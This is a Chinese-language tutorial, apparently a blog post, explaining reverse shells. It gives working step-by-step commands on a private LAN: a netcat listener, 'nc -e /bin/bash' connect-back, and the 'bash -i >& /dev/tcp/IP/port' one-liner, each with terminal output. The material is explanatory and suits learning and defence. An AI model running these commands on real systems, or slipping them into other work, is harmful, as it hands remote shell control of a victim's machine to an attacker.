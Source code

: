 ```yaml
---
title: 反弹 Shell
icon: reverse
date: 2023-04-12
category: Computer
tag:
    - Linux
---
```


## 什么是 Shell

Shell 就是实现用户命令的接口，通过这个接口我们就能实现对计算机的控制，比如：我们常见的 ssh 就是执行的 Shell 命令实现对远程对服务器的控制。

## 什么是反弹 Shell

其英文名叫做 `Reverse Shell`，就是控制端首先监听某个 `TCP/UDP` 端口，然后被控制端向这个端口发起一个请求，同时将自己命令行的输入输出转移到控制端，从而控制端就可以输入命令来控制被控端了。

比如说，我们有两台主机 A、B，我们最终想实现在 A 上控制 B。那么如果用正向 Shell，其实就是在 A 上输入 B 的连接地址，比如通过 ssh 连接到 B，连接成功之后，我们就可以在 A 上通过命令控制 B 了。如果用反向 Shell，那就是在 A 上先开启一个监听端口，然后让 B 去连接 A 的这个端口，连接成功之后，A 这边就能通过命令控制 B 了。

## 反弹 Shell 的作用

当我们使用 A 控制 B，但由于被控端因防火墙受限、权限不足、端口被占用等无法直接连接。这时我们就要使用反弹 Shell 让 B 向 A 主动发起连接，我们就可以使用 A 来控制 B 了。

## 使用方法

|  控制端  |  被控制端  |
|  :----:  |  :----:  |
|  IP：192.168.4.151  |  IP：192.168.4.142  |
|  hostname：root@localhost  |  hostname：root@dev_03  |

1. 控制端和被控制端都安装 nc 命令

    ```bash
    yum -y install nc
    ```

2. 监听端口。在控制端上执行 `nc -lvvp 9999` 命令

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )  # 输出结果
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    ```

    - **-l**：监听模式，用于入站连接
    - **-vv**：`-vv` 比 `-v` 更详细的输出
    - **-p**：设置本地端口

3. 发起连接请求。在被控制端上执行 `nc -e /bin/bash [控制端的 IP] 9999` 命令

    ```bash
    root@dev_03:~# nc -e /bin/bash 192.168.4.151 9999
    ```

    - **-e**：绑定命令行

    ::: tip
    如果没有 `-e` 这个参数，是因为 `nc` 老版本没有这个选项的。需要安装 `netcat-traditional` 这个包，并执行 `update-alternatives --config nc` 这个命令，选择 `/bin/nc.traditional` 的编号，这里选择编号 `2` 即可
    :::

4. 控制端接收连接请求。被控制端发起连接请求后，查看控制端

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:39064.
    ```

5. 测试。控制端进行测试

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:39064.

    uname -a
    Linux dev_03 4.15.0-193-generic #204-Ubuntu SMP Fri Aug 26 19:20:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

    ifconfig ens33
    ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.4.142  netmask 255.255.255.0  broadcast 192.168.4.255
            inet6 fe80::20c:29ff:fe14:1e21  prefixlen 64  scopeid 0x20<link>
    ```

## 被控制端使用 bash 发起连接

被控制端也可以不用安装 nc 这个命令发起连接，可以直接使用 bash 来实现。

1. 监听端口。在控制端上执行 `nc -lvvp 9999` 命令

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )  # 输出结果
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    ```

2. 发起连接请求。在被控制端上执行 `bash -i >& /dev/tcp/[控制端的 IP]/9999 0>&1` 命令

    ```bash
    root@dev_03:~# bash -i >& /dev/tcp/192.168.4.151/9999 0>&1
    ```

    - **bash -i**：就是产生一个 bash 交互环境
    - **>&**：可以将 bash 交互环境的输入、输出、错误输出都输出到一个地方
    - **/dev/tcp/[控制端的 IP]/9999**：指的是目标主机的一个连接地址，因为 Linux 环境中所有内容的定义都是以文件的形式存在的，指定这个地址就是让主机和目标主机建立一个 TCP 连接
    - **0>&1**：可以将标准输入和标准输出相结合，重定向给前面标准输出的内容

    通过这样的命令，我们就可以就是将被控制端的标准输出和错误输出都重定向给控制端，并且将控制端的输入都重定向给被控制端，这样我们就可以实现控制端对被控制端的远程控制了。

3. 控制端接收连接请求。被控制端发起连接请求后，查看控制端，会显示被控制端的 localhost

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:34944.
    root@dev_03:~#
    ```

4. 测试。控制端进行测试

    ```bash
    [root@localhost ~]# nc -lvvp 9999
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9999
    Ncat: Listening on 0.0.0.0:9999
    Ncat: Connection from 192.168.4.142.
    Ncat: Connection from 192.168.4.142:34944.
    root@dev_03:~#

    root@dev_03:~# uname -a
    uname -a
    Linux dev_03 4.15.0-193-generic #204-Ubuntu SMP Fri Aug 26 19:20:21 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
    root@dev_03:~#

    root@dev_03:~# ifconfig ens33
    ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 192.168.4.142  netmask 255.255.255.0  broadcast 192.168.4.255
            inet6 fe80::20c:29ff:fe14:1e21  prefixlen 64  scopeid 0x20<link>
    root@dev_03:~#
    ```
